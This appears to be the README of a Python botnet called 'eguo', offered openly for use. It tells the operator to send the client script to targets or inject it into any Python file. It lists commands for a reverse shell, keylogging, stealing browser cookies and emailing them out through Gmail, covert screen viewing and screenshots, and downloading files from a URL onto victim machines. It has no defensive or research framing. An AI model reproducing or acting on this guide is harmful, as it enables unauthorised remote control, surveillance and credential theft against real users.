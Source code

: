 # eguo
reverse shell _ botnet _ zombie network (keylogger,IP_info_location,screenSher_RD_screen_shoter_reverse_commandes)


eguo it's a botnet that can handle many connections 


eguo will let you run commandes to the targets machine and it will let you to run one command to all machine and  you can control one target if you want 


it will give you reverse shell and keylogger and ip info with locathion and it can get screen shots of the targets machine and it can download files and it give you screen share to the targets machine  (like rdp but without conrtol just seeing what the target doing ) and it get the targets browser cookies firefox or chrome and it allows connected 

how to install

pip3 install -r requirements.txt

you can inject it in any python file 

how to run

send the eguo.py to the targets 

run  eguo_eare.py in your server

| Command | Description |
| --- | --- |
| `1 or accept` | to accept the connection  |
| `2 or list` | to list all targets |
| `connect id or 3 (then id)` | to connect to spesfic target |
| `4 or zommbe` | to connect to all targets |
| `5 or exit` | to exit |

| Command | Description |
| --- | --- |
| `cookies-chrome yourEmail@gmail.com` | it get the chrome cookies and send it to your email |
| `cookies-firefox` | it get the chrome cookies and send it to your email |
| `keylog` | it get the Keystroke logs and send it to your email it will not end antel the user type '~' you can edit it in line 37 |
| `screensher` | it will show you what the target do like video converse   |
| `ip-info` | it give you sum info about his ip  |
| `dfile https://www.url.com/me.exe` | it will download the file from the url |
| `screenshot` | it give you screen shot of the target screen   |

 we are using gmail smtp you will need to allow https://myaccount.google.com/lesssecureapps

and you ned to edit  egou.py

add you ip and port in line 13 14
and you need to add gmail account and pass after allowing the lesssecureapps  in line 16 17

:)
